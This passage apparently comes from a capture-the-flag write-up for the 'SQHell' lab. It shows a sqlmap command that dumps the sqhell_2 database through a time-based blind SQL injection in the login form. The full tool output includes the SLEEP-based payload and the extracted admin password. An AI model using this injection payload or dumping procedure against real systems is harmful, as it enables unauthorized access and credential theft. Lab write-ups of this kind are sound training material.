 Again, a lot of information but the important part is the database it found:

```
[*] sqhell_2
```

Next we can ask SQLMap to dump the contents of that database:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql -D sqhell_2 --dump-all --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:37:42 /2021-06-09/
[22:37:42] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:37:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:37:43] [INFO] testing MySQL
[22:37:43] [INFO] confirming MySQL
[22:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:37:43] [INFO] fetching tables for database: 'sqhell_2'
[22:37:43] [INFO] fetching number of tables for database 'sqhell_2'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:37:44] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[22:37:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:37:53] [INFO] retrieved: 
[22:38:03] [INFO] adjusting time delay to 1 second due to good response times
[22:38:17] [INFO] fetching columns for table 'users' in database 'sqhell_2'
[22:38:17] [INFO] retrieved: 3
[22:38:21] [INFO] retrieved: id
[22:38:27] [INFO] retrieved: username
[22:38:52] [INFO] retrieved: password
[22:39:21] [INFO] fetching entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] fetching number of entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] retrieved: 1
[22:39:23] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[22:39:26] [INFO] retrieved: icantrememberthispasswordcanyou
[22:41:05] [INFO] retrieved: admin
Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
```